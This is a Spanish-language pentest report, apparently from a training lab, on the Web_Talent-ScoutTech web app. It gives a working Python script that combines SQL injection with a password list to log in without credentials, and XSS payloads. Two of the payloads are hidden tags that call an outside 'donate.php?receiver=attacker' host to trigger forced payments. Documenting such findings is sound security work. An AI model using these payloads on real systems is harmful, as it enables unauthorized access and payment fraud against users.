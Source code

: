 # **Informe de Pentesting**  
### **Aplicación Web: Web_Talent-ScoutTech**

---

## **1. Introducción**  
Este informe detalla las vulnerabilidades identificadas durante un pentesting realizado en la aplicación web **Web_Talent-ScoutTech**. El análisis se centra en las siguientes categorías:  
- Inyección SQL (SQLi)  
- Cross-Site Scripting (XSS)  

Cada hallazgo se presenta con su respectiva descripción, pasos de explotación, evidencias y recomendaciones para su mitigación.

---

## **2. Inyección SQL (SQLi)**  

### **Descripción**  
Se identificó una vulnerabilidad de inyección SQL en la página `list_players.php`. Esta vulnerabilidad permite a un atacante acceder al sistema sin credenciales válidas, manipulando las consultas SQL ejecutadas en el servidor.

### **Detalles del hallazgo**  

1. **Ubicación de la vulnerabilidad**:  
   Página de inicio de sesión: `list_players.php`.  

2. **Evidencia inicial**:  
   Introduciendo un carácter `"`, el sistema devuelve un error que expone parcialmente la consulta SQL:  
   ```sql
   SELECT userId, password FROM users WHERE username = ""
   ```  

   **Captura de pantalla**:  
   ![Error de SQL](img/e1a1715308d347f986417fec99980204(1).png)  

3. **Técnica utilizada**:  
   Se creó un script en Python que realiza fuerza bruta en combinación con la inyección SQL `" OR password="{contraseña}"-- -"` en el campo de usuario.  

   **Script de explotación**:  
   ```python
   import requests

   url = 'http://localhost:8080/list_players.php'
   passwords = ['password', '123456', '12345678', '1234', 'qwerty', 'dragon']

   for password in passwords:
       payload = {
           'username': f'" OR password="{password}"-- -',
           'password': password
       }
       response = requests.post(url, data=payload)
       if 'Players list' in response.text:
           print(f'Login successful: Password: {password}')
           break
   ```  

4. **Resultados obtenidos**:  
   El script logró acceder al sistema utilizando la contraseña `1234`.  

   **Captura de pantalla del resultado**:  
   ![Resultado del script](img/596842eb5a55467595e097021951d0c5.png)  

5. **Identificación del usuario**:  
   El usuario asociado fue identificado a través de las cookies almacenadas en el navegador. Sin embargo, inicialmente, las cookies mostraban la cadena SQL utilizada. Posteriormente, al agregar un comentario en la aplicación, el nombre del usuario quedó visible.  

   **Capturas de pantalla**:  
   - Cookies iniciales:  
     ![Cookies iniciales](img/Captura%20de%20pantalla%202025-01-28%20182813.png)  
   - Comentarios que revelan el usuario:  
     ![Comentario del usuario](img/Captura%20de%20pantalla%202025-01-28%20183045.png)  

### **Impacto**  
Un atacante puede acceder al sistema sin credenciales válidas, exfiltrar datos sensibles y comprometer la integridad del sistema.

---

## **3. Cross-Site Scripting (XSS)**  

### **Descripción**  
Se identificaron múltiples puntos de entrada vulnerables a ataques XSS en la aplicación. Estas vulnerabilidades permiten la ejecución de scripts maliciosos en el contexto del navegador de otros usuarios.

### **Detalles del hallazgo**  

1. **Ubicación de las vulnerabilidades**:  
   - `show_comments.php`  
   - `insert_player.php`  
   - `buscador.php`  

2. **Evidencia inicial**:  
   Inyección del payload `<script>alert('XSS detectado');</script>` en la página `show_comments.php`.  

   **Captura de pantalla**:  
   ![XSS detectado](img/1b6f26a48af54c9391817a9d553ef49a.png)  

3. **Explotación avanzada**:  
   - **`insert_player.php`**: Se inyectó código malicioso en el campo `Team`.  
   - **Payload utilizado**:  
     ```html
     <a href="http://web.pagos/donate.php?amount=100&receiver=attacker" style="text-decoration: none;">
         <button>Profile</button>
     </a>
     ```  

     **Captura de pantalla**:  
     ![XSS en Team](img/03af9c417a2f49188163237af66cf37f(1).png)  

   - **Comentarios maliciosos**:  
     Se inyectó un payload para realizar pagos automáticos:  
     ```html
     <img src="http://web.pagos/donate.php?amount=100&receiver=attacker" style="display:none;">
     ```  

     **Captura de pantalla**:  
     ![XSS en comentarios](img/1f757a8b39e14bc0b039c9a4b7d07861(2).png)  

### **Impacto**  
Un atacante puede ejecutar scripts maliciosos en los navegadores de las víctimas, robando cookies, redirigiendo a sitios externos o realizando acciones no autorizadas en su nombre.

---

## **4. Conclusión**  
El pentesting reveló vulnerabilidades críticas en la aplicación **Web_Talent-ScoutTech**. Estas permiten comprometer la confidencialidad, integridad y disponibilidad del sistema. Se recomienda aplicar las mitigaciones descritas con urgencia para garantizar la seguridad de los usuarios y la plataforma.
